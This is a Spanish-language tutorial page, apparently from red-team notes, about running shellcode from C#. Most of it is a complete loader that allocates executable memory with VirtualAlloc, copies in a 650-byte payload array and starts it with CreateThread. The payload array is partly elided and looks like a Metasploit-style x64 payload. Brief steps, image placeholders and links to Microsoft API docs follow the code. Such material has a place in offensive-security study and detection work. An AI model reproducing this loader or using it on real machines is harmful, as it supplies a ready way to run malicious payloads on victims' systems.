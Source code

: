 # Shellcode Execution C\#

Consiste en crear un nuevo proceso .exe, en el cual vamos a ejectuar nuestra shellcode.&#x20;

Para esto vamos a:

* reservar un espacio en memoria del tamaño de la shellcode
* copiar la shellcode al espacio creado
* ejecutar lo que tengamos en la direccion de memoria creada
* no cerrar el programa después de ejecutar el programa



## Código

{% code lineNumbers="true" %}
```csharp
using System;
using System.Collections.Generic;
using System.Linq;
using System.Runtime.InteropServices;
using System.Text;
using System.Threading.Tasks;

namespace ConsoleApp2
{

    internal class Program
    {
        [DllImport("kernel32")]
        public static extern IntPtr VirtualAlloc(
            IntPtr lpAddress,
            uint dwSize,
            uint flAllocationType,
            uint flProtect);

        [DllImport("kernel32", CharSet = CharSet.Ansi)]
        public static extern IntPtr CreateThread(
            IntPtr lpThreadAttributes,
            uint dwStackSize,
            IntPtr lpStartAddress,
            IntPtr lpParameter,
            uint dwCreationFlags,
            IntPtr lpThreadId);

        [DllImport("kernel32.dll", SetLastError = true)]
        static extern UInt32 WaitForSingleObject(
            IntPtr hHandle,
            UInt32 dwMilliseconds);

        public const uint MEM_COMMIT = 0x00001000;
        public const uint MEM_RESERVE = 0x00002000;

        public const uint PAGE_EXECUTE_READWRITE = 0x40;

        static void Main(string[] args)
        {
            byte[] buf = new byte[650] {
                0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xcc,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,
                0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x51,0x48,0x8b,0x52,0x18,0x56,0x48,
                0x8b,0x52,0x20,0x4d,0x31,0xc9,0x48,0x0f,0xb7,0x4a,0x4a,0x48,0x8b,0x72,0x50,
                                                  . . . 
                0xff,0xd5,0x48,0x83,0xc4,0x20,0x85,0xc0,0x74,0xb2,0x66,0x8b,0x07,0x48,0x01,
                0xc3,0x85,0xc0,0x75,0xd2,0x58,0xc3,0x58,0x6a,0x00,0x59,0x49,0xc7,0xc2,0xf0,
                0xb5,0xa2,0x56,0xff,0xd5
             };

            // Crear un espacio en la memoria para guardar el shelloce
            IntPtr addr = VirtualAlloc(IntPtr.Zero, (uint)buf.Length, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

            // Copiar el Shellcode al espacio de memoria creado
            Marshal.Copy(buf, 0, addr, buf.Length);

            // Crear un thread (hilo) que ejecute el shellcode en el espacio de memoria creado
            IntPtr thread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);

            // No cerrar el programa 
            WaitForSingleObject(thread, 0xFFFFFFFF);

        }
    }
}
```
{% endcode %}



### Pasos

1.  Crear espacio en memoria con VirtualAlloc&#x20;

    <div align="left">

    <figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

    </div>
2. Copiar a este espacio de memoria la shellcode&#x20;

<div align="left">

<figure><img src="../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

</div>

<div align="left">

<figure><img src="../../.gitbook/assets/image (100).png" alt=""><figcaption></figcaption></figure>

</div>

3. Ejecutar la shellcode con CreateThread

<figure><img src="../../.gitbook/assets/image (81).png" alt=""><figcaption></figcaption></figure>

### Funciones

{% embed url="https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc" %}

{% embed url="https://learn.microsoft.com/en-us/dotnet/api/system.runtime.interopservices.marshal.copy?view=net-7.0" %}

{% embed url="https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createthread" %}

{% embed url="https://learn.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-waitforsingleobject" %}





##

###

